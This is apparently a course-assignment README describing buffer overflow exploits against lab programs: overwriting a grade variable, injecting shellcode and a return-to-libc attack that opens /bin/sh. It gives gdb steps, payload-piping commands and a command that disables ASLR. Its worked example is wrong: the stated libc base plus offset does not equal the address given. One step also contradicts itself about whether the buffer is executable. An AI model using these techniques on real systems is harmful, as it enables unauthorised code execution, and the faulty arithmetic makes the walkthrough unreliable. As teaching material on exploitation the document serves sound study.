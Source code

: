 # 📘 Overview

This assignment explores exploiting buffer overflow vulnerabilities in two different scenarios: 

1. A simple buffer overflow that allows an attacker to execute shellcode.
2. A more advanced buffer overflow using the "return to libc" technique to execute shellcode.

---

## Buffer Overflow Exploit Steps

### Part 1: Changing the Grade

To alter the grade from `6` to any desired value, the buffer must be filled until the memory location of the `grade` variable is reached. A Python script generates a payload to change the grade, and this payload is stored as a binary file named `grade_change.txt`.

To execute the program and change the grade:

```bash
(cat grade_change.txt; cat) | ./GradeChanger
```

#### Special Case: Grade 10

For grade `10`, the program displays:

```bash
Hello, A...A, your grade is 0
```

Although the grade is `10`, the program misinterprets the hex value and prints `0`.

---

### Part 2: Simple Buffer Overflow

1. **Locate the Return Address**  
   Use the `gdb` debugger with a known input string to find the return address. Once identified, calculate the offset to the buffer.

2. **Find the Address of the Variable `Name`**  
   Since the buffer is non-executable, locate the executable memory address of the variable `Name`:

   ```bash
   p Name
   ```

   Use this address to overwrite the return address and execute the shellcode.

3. **Generate the Payload**  
   A Python script (`Buffer_Attack.py`) creates the payload, resulting in a binary file. Use the following command to run the exploit:

   ```bash
   (cat payload; cat) | ./Greeter
   ```

---

### Part 3: Return to libc Technique

To execute a shell using the "return to libc" technique, construct the following buffer structure:

```bash
| NOP sled | system | return address for system | /bin/sh |
```

#### Steps:

1. **Find Function and String Addresses**  
   Use `gdb` to locate necessary addresses:

   ```bash
   break main
   p system
   p exit
   info proc map
   ```

2. **Locate `/bin/sh` String Address**  
   From the output of `info proc map`, identify the libc library and find the offset of the string `/bin/sh`:

   ```bash
   strings -a -t x /usr/lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
   ```

   Combine the libc base address with the offset to compute the final address of `/bin/sh`.

   Example:

    ```bash
   libc base address: 0xf7d72000
   Offset: 0x1b3e9a
   Address of `/bin/sh`: 0xf7f36de8
   ```

3. **Verify the Address**  
   Confirm the computed address in `gdb`:

   ```bash
   x/s 0xf7f36de8
   ```

   The result should display:

   ```bash
   "/bin/sh"
   ```

4. **Generate and Execute the Payload**  
   Use Python to pack the addresses into a binary payload. Execute the program:

   ```bash
   (cat payload_secure; cat) | ./SecGreeter
   ```

#### Disable ASLR

For the exploit to succeed, Address Space Layout Randomization (ASLR) must be disabled:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

---
